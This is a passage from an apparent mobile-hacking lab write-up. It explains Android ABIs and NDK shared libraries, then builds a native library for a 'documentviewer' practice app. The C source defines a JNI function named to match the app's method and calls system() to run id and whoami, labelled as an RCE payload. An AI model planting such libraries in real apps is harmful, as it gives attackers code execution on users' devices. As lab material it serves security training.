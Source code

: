 Android applications *may contain* native code (using **NDK**) that **depends directly on the ABI to run correctly on different CPU architectures**.
How get the `abi` from our device?
Just run with **ADB** this command
```bash
adb shell getprop ro.product.cpu.abi
```

When you compile native code using the **NDK** (**Native Development Kit**), you generate specific `.so` libraries (**Shared Object Files**) for each **ABI**.
```bash
lib/
├── armeabi-v7a/
│  ├── libnative-lib.so
├── arm64-v8a/
│  ├── libnative-lib.so
├── x86/
│  ├── libnative-lib.so
└── x86_64/
   └── libnative-lib.so
```
Operative system will select **automatically** the correct library.
- **armeabi-v7a**: 32-bit ARM CPU, efficient in power consumption, but limited in processing.
- **arm64-v8a**: 64-bit ARM CPU, can handle more memory and is faster.
- **x86 / x86_64**: More common in emulators and some Intel devices; less battery efficient.

Let's create our `.so` library!
We need install **Android NDK** (`ndk-build`)
Then, we need create the folders
```bash
mkdir -p jni libs obj
```
Must look like
```bash
📂 workDirectory/
├── 📂 jni/
│   ├── 📄 Android.mk
│   ├── 📄 Application.mk
│   ├── 📄 libdocviewer_pro.c
└── 📂 libs/
└── 📂 obj/
```

In `libdocviewer_pro.c`
```C
#include <jni.h>
#include <stdlib.h>
#include <android/log.h>

#define LOG_TAG "RCE-Payload"
#define LOGI(...) __android_log_print(ANDROID_LOG_INFO, LOG_TAG, __VA_ARGS__)

// RCE
JNIEXPORT void JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(JNIEnv* env, jobject /* this */) {
    LOGI("[+] Payload: initProFeatures");

    system("id > /data/data/com.mobilehackinglab.documentviewer/lautaro.txt");
    system("whoami > /data/data/com.mobilehackinglab.documentviewer/whoami.txt");
}

JNIEXPORT jstring JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_stringFromJNI(JNIEnv* env, jobject /* this */) {
    return (*env)->NewStringUTF(env, "Hello from native lib");
}
```